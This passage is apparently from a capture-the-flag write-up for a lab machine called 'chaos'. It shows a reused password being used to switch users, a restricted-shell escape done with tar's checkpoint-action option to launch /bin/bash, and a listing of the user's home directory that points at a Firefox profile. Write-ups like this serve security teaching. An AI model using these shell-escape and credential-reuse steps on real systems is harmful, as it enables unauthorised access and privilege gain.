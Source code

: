 # Shell

We can try the previous credentials used for `ayush mail`.

```bash
$ su ayush
Password: jiujitsu
ayush@chaos:/home$
```

Ayush has a `restricted shell`, but he can run the `tar` command. We can spawn a shell with this command : https://gtfobins.github.io/gtfobins/tar/

```bash
$ ls
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
$ tar cf /dev/null rick.tar --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

Upgrade the `PATH`...

```bash
ayush@chaos:/home$ export PATH=/bin:$PATH
ayush@chaos:/home$ export PATH=/usr/bin:$PATH
ayush@chaos:/home$ id
uid=1001(ayush) gid=1001(ayush) groups=1001(ayush)
```

Looking the `ayush home`, we can find a `.mozilla` directory.

```bash
$ ls -la
total 40
drwx------ 6 ayush ayush 4096 May 16 19:11 .
drwxr-xr-x 4 root  root  4096 Oct 28  2018 ..
drwxr-xr-x 2 root  root  4096 Oct 28  2018 .app
-rw------- 1 root  root     0 Nov 24  2018 .bash_history
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4096 May 16 19:11 .gnupg
drwx------ 3 ayush ayush 4096 May 16 19:38 mail
drwx------ 4 ayush ayush 4096 Sep 29  2018 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Oct 28  2018 user.txt
```

